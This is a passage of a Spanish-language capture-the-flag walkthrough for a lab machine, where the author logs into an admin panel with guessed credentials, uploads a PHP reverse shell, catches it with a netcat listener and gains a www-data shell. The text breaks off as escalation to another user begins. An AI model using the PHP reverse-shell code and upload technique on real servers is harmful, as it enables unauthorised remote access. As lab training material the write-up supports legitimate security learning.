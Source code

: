 Por lo que vemos hay como una cuenta de correo llamada `mrRobot@hackzone.hl` pero en el login nos pide un usuario, por lo que vamos a meter como usuario `mrRobot` y como contraseña, nos servira el propio dominio que tiene asociado en el correo llamado `hackzone.hl`.

```
User = mrRobot
Pass = hackzone.hl
```

Esto nos llevara a un panel de administrador, en el que si vemos el perfil del administrador no tiene imagen y encima podemos subir un archivo, por lo que probaremos a subir un `.php` con una `reverse shell`:

## Escalate user www-data

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora teniendo el archivo, le daremos a `Browser`, seleccionamos el archivo `.php` que creamos, y le daremos a `Subir Archivo`, si todo a salido bien nos pondra un pensaje en una pagina lo siguiente:

```
El archivo shell.php se ha subido correctamente. 
```

Ahora si nos vamos por intuicion a la tipica carpeta llamada `uploads/` podremos ver que si existe, igualmente se puede hacer con `Gobuster`.

Nos pondremos antes a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora ejecutaremos el archivo `.php`:

```
URL = http://hackzones.hl/uploads/shell.php
```

Y si volvemos a donde teniamos la escucha veremos algo tal que asi:

```
listening on [any] 7777 ...
connect to [192.168.5.147] from (UNKNOWN) [172.19.0.2] 39948
whoami
www-data
```

Por lo que ya seremos el usuario `www-data`.

## Escalate user mrrobot

Si nos vamos a la siguiente direccion, veremos una carpeta bastante rara.

```shell
cd /var/www/html/
```
